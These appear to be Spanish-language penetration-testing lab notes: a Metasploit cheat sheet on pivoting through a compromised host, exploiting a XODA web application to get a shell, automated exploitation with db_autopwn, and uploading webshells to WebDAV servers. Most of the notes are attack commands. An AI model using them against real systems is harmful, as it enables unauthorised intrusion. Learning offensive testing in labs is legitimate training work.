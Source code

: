	run autoroute -s <Subred (192.113.124.2)> -Se agrega el otro adaptador de red de la victima (Desde Meterpreter mas no el la shell)
	
	background -Mandar las sesiones a segundo plano
	sessions -Listar las sesiones activas
	search portscan -Utilizar las herramientas de Mestasploit y usar directamente la IP de la segunda victima
	
	  
Resumen(service postgresql start, msfconsole, workspace -a Portscan_interno, search portscan, use 5, set RHOST 192.45.96.3, curl 192.45.96.3, search XODA, use 0, set RHOST 192.45.96.3, set TARGETURI /, set LHOST 192.45.96.2, exploit, shell, /bin/bash -i, ifconfig, exit, run autoroute -s 192.194.183.2, bg, sessions, search portscan, use 5, set RHOSTS 192.194.183.2)	

__

Modulos MSF - search type:auxiliary name:
	ftp enum 
	smb shares
	http version, http header
	mysql version, login, enum, schemadump
	ssh version, login, enumusers(userfile), openssh
	smtp version, enum, 

HTTrack -descargar toda la pagina web

Herramienta Automatizacion de explotación con Metasploit (Hay que haber iniciado PostgreSQL, workspace y db_nmap)
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/share/metasploit-framework/pluguins/
msf6> load db_autopwn
db_autopwn -p -t -PI <Port>

Analyzer - Herramienta de análisis de exploits listos para probar (Hay que haber iniciado PostgreSQL, workspace y db_nmap)
msf6> analyze
           vulns


Pentest WebDav (Extension del protocolo HTTP que permite el desarrollo web comunitario, donde usuarios pueden descargar, cargar o eliminar contenido - Suele estan en un IIS o en Apache)
	davtest -auth user:password -url http://<IP>/webdav -Permite conocer que tipos de archivos se pueden ejecutar, cargar etc (GET, PUT, PUSH)
	cadaver http://<IP>/webdav -Permite ejecutar las acciones enumeradas con davtest (ej: para cargar shells /usr/share/webshells/ asp/webshell.asp)

mysql -u User -p -h <IP>
nmap -oX - Se puede exportar los resultados de Nmap a Metasploit con un xml
	service postgresql start -Primero se dbe iniciar los servicios de Postgre
	msfconsole
	db_status -Se confirma la coneccion de Postgre con Metasploit
	
	workspace -Se debe crear un nuevo espacio de trabajo
	workspace -a NombreWorkspace
	db_import /resultadosnmap.xml
	hosts -Para comprobar si realmente se cargo el host
	services -Comproar los servicios
